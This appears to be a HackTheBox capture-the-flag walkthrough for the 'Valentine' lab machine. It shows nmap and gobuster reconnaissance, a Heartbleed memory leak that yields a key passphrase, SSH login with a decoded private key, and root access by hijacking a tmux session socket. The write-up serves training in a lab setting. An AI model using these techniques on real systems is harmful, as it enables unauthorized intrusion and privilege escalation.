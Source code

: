 # Recon
```
sudo nmap -sV -sC -O -p- -oN nmap.txt 10.10.10.79  
```
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Valentine/assets/1.png">


# Enumeration
We start a gobuster scan to search for directories:
```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.79
```
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Valentine/assets/7.png">

We find a key file.

<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Valentine/assets/2.png">

Decoding it using CyberChef reveals an encrypted private key.

<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Valentine/assets/3.png">


# Initital Foothold
We can browse to http://10.10.10.79 to find a image which hints towards a heartbleed attack.. We can try using ```strings```, ```steghide``` and ```file``` to see if there are any hidden messages.
We can check to see if the host is vulnerable by running nmap again:
```
nmap --script vuln 10.10.10.79
```
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Valentine/assets/5.png">

We can use a script to get additional in-memory information. Hopefully we can extract some useful information.

> https://gist.github.com/eelsivart/10174134

<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Valentine/assets/6.png">

It looks like a base64 encoded string. We can try to decode it.
```
echo -n aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d 
```
Which decodes to:
```
heartbleedbelievethehype
```

We can connect as ```hype``` with SSH using the key we decoded.

# Privilege Escalation
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Valentine/assets/8.png">
Although the host is running a vulnerable kernel version we also find tmux to be running. We can use that to escalate our privileges.

> https://int0x33.medium.com/day-69-hijacking-tmux-sessions-2-priv-esc-f05893c4ded0

First check if we have read/write permissions:
```
ls -la /.devs/dev_sess
```
After confirming we run the following command to spawn a root shell:
```
tmux -S /.devs/dev_sess
```









